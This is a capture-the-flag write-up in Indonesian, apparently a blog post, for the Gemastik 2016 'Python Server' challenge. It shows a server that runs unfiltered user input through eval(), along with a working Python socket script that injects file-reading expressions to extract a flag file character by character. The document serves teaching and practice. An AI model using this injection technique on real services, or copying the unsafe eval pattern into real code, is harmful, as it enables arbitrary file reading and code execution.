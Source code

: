 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Python Server - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: Pwnable
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Python Server](/images/python-server.png)


### Solusi :

Di dalam source code yang di berikan ternyata terlihat input yang kita berikan di jalankan di dalam *eval()*

```python
    req.sendall("Dec to Hex Converter - Insert number : ")
    number = req.recv(512)[:-1]
    req.sendall(hex(eval(number)) + "\n")
```

input kita pun tidak di filter dan memungkinkan kita untuk menjalankan expression sesuka kita, di dalam source code juga
ada baris code ini `flag = open('PythonServer.flag').read()` terlihat bahwa flag tersimpan di PythonServer.flag 
kemudian kita gunakan `ord(open('PythonServer.flag').read()[0])` untuk mengambil per index dari file PythonServer.flag
dan mengirimkan dalam bentuk decimal nanti output nya dalam bentuk hex. untuk mempercepat dump flag kami gunakan python.

```python
import socket

s = "target.netsec.gemastik.ui.ac.id"
port = 13338

result = ""
sock = socket.socket()
sock.connect((s, port))

print sock.recv(2048)
print sock.recv(2048)
sock.send("guest\n")
sock.send("guest\n")
x = 0

print sock.recv(2048)

while True:
    print sock.recv(2048)
    sock.send("hex\n")
    print sock.recv(2048)
    sock.send("ord(open('PythonServer.flag').read()["+str(x)+"])\n")
    data = sock.recv(2048)
    if "Please insert number" in data :
        break
    flags = chr(int(data,16))
    result += flags
    print data
    x += 1    
    
print result.rstrip('\n')
```

![Python Server Flag](/images/python-server-flag.png)
